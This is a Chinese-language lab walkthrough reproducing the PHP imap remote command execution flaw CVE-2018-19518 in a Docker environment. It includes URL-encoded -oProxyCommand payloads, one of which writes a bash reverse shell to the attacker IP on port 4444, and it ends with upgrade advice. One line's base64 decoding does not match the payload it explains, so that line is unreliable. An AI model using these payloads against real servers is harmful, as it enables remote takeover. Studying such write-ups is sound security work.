 # PHP imap 远程命令执行漏洞（CVE-2018-19518）
## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.93.130

## 复现步骤
启动并进入环境
![](./img/启动环境.png)
![](./img/进入环境.png)

输入任意信息后进行抓包
![](./img/输入信息后抓包.png)

将hostname修改为
```
hostname=aaa+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}&username=111&password=222
```
![](./img/构造恶意payload.png)
```
上述中x+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}的意思如下:
使用url编码解码后x -oProxyCommand=echo ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64 -d|sh}
ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=的意思是echo 'This is a test!'>/tmp/test
```

进入容器后查看tmp目录发现并查看test文件
```bash
sudo docker exec -it 8999591a03ad /bin/bash
root@8999591a03ad:/var/www/html# cd /tmp
root@8999591a03ad:/tmp# ls
flag-{bmh760e65be-84c5-4e7f-ba70-3cf421c2cc4e}  test
root@8999591a03ad:/tmp# cat test
This is a test!
root@8999591a03ad:/tmp#
```
![](./img/指令成功执行.png)

## 反弹shell
编写一段python脚本实现从原始shell命令到base64编码后输出结果为url编码
在前面以及解释过生成原理，故此处不再阐述
```
x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMwLzQ0NDQgMD4mMSIgPiAvdG1wLzEyMw==|base64%09-d|sh}
```
![](./img/编写脚本编码payload.png)
![](./img/修改hostname为payload.png)

再次进入容器发现以及成功写入脚本
![](./img/成功写入脚本.png)

攻击机上开启监听
![](./img/开启监听.png)

将hostname修改为x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvMTIz|base64%09-d|sh}
该命令意思是/bin/bash /tmp/123，即启动之前注入的脚本
![](./img/再次修改hostname.png)

在send后攻击机成功反弹shell，并且进入tmp目录成功发现flag
![](./img/成功反弹shell.png)
![](./img/发现flag.png)

## 漏洞修复
**升级 php-imap 版本**
此漏洞已在较新版本的 php-imap / uw-imap 库中被修复：
对于使用 libc-client 的 php-imap 用户，可以升级到最新版 PHP 版本（>7.3.13 或 PHP 7.4+）确保底层的 uw-imap 库也更新（如果系统使用）